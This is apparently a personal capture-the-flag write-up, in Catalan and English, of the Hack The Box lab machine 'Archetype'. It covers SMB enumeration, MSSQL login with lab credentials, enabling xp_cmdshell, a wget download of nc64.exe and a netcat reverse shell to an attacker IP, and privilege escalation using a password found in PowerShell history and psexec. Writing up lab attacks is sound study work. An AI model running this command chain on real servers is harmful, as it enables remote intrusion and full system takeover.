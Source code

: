 # Intro
| Dificulty | OS | Start Date | End Date | Help? |
|---|---|---|---|---|
| Very Easy | Windows | 26/05/2022 | 28/05/2022 | Yes |


# Thought process
1. Common enumeration
2. Check `smbclient`
3. 




# smbclient
> Check Samba Server from Linux
```bash
$ smbclient -N -L @Target_IP
```
[-N]: Suppresess the normal password prompt from the client to the user
[-L]: List what services are aviable

There's a folder call it "backups" that probably has more information.

> Access Samba folder
```bash
$ smbclient \\\\@Target_IP\\folder_name
```

https://tldp.org/HOWTO/SMB-HOWTO-8.html

get file_name
[//]: La ruta es desde on has executat la terminal de Kali

```
~/HTB/impacket/examples
└─$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.90.161 -windows-auth
```

un cop en el server, s'ha de permettre `enable_xp_cmdshell` perque despres farem comandos de windows al servidor.

???perque collons ers lo de responder





# FINDS
ARCHETYPE\sql_svc = M3g4c0rp123

mssqlclient.py (Estavlir conexio autentificada amb el servidor SQL)
xp_cmdshell (Executar Consola de Comandos de Windows en Microsoft SQL)
winpeas (Privilegie Escalation)

---
# Archetype
https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

username: dbo
system_user: sql_svc

> Veure quin rol tenim
```SQL
SQL> SELECT is_srvrolemember('sysadmin');
```
1 --> True

> Llistar Databases
```sql
SQL> EXEC sp_databases;
```


> Execució de commandes
```sql
SQL> EXEC xp_cmdshell ‘net user’;

SQL> EXEC sp_configure ‘show advanced options’, 1; — priv

SQL> RECONFIGURE; — priv

SQL> EXEC sp_configure ‘xp_cmdshell’, 1; — priv

SQL> RECONFIGURE; — priv
```
[priv]: S'han d'executatr amb usuari que tingui permisos d'admin

!! Com que ja podem executar commandes, intentarem executar una reverse shell. (nc64.exe)

> Escoltar port 80 local (Python)
```bash
$ sudo python3 -m http.server 80
```

> Escoltar port 80 local (netcat)
```bash
$ sudo nc -lvnp 443
```

?¿ Quina és la diferencia

> Saber directori del server
```sql
SQL> xp_cmdshell "powershell -c pwd";
```


En aquest directori no hi ha permisos d'execucció per l'usuari sql_svc així que haurem d'utilitzar el alguna ruta del seu directori.
Després fem la petició de la reverse shell que tenim en local.

> Canvi de directori i Reverse Shell
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.123/nc64.exe -outfile nc64.exe"
```

Podrem observar que el python que tenim escoltant al port 80 ha rebut una petició de GET.

> Solicitar cmd com a reverse shell al Local
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.123 443"
```

El netcat ja haurà rebut la petició de la reverse shell al port 443

![[Pasted image 20220528174933.png]]


Busquem la flag en el sistema i amb un `more` llegim el contingut

---

# Privilegie Escalation
Utilitzarem l'eina WinPeas. Primer descarreguem en local i despres la solicitem desde la màquina. 
(Continuar fent escolta en el port 80 amb python)
[Link descarrega](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)

Executar escolta en port 80 desde l'ubicació on està el winPEAS. Fer `wget` de l'arxiu

```powershell
wget http://10.10.14.123/winPEASx64.exe -outfile winPEASx64.exe
```
[//]: S'ha d'estar en un directori on l'usuari tingui permissos.

Executem el binari utilitzant la reverse shell
```powershell
.\winPEASx64.exe
```

Podem observat que hi ha `SeImpersonatePrivilege` [Link](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) i aquest es vulnerable a "[juicy potato exploit](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato)". Però abans mirem si hi ha arxius que puguin contindre passwords.

Com que 'sql_svc' es un usuari normal, podem mirar el equivalent al '.bashrc' de powershell.
```powershell
cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline
```

El fitxer conté la contrasenya de administrador.
administrator:MEGACORP_4dm1n!!

Ara podem executar `psexec.py` desde impacket per tenir una shell com Administrador.

```bash
$ python3 psexec.py administrator@Target_IP
```
![[Pasted image 20220528174919.png]]
La root flag es troba en el desktop de l'usuari











